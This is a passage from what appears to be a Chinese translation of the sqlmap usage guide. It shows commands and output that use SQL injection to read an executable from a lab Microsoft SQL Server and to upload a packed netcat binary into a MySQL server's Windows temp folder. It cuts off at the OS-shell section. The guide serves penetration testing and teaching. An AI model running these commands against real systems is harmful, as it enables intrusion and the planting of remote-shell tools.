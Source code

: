 当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

列举一个Microsoft SQL Server 2005的例子：

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
80386 32-bit

把文件上传到数据库服务器中

参数：--file-write,--file-dest

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个MySQL的例子：

$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL &gt;= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
same size as the local file '/software/nc.exe.packed'

运行任意操作系统命令

参数：--os-cmd,--os-shell
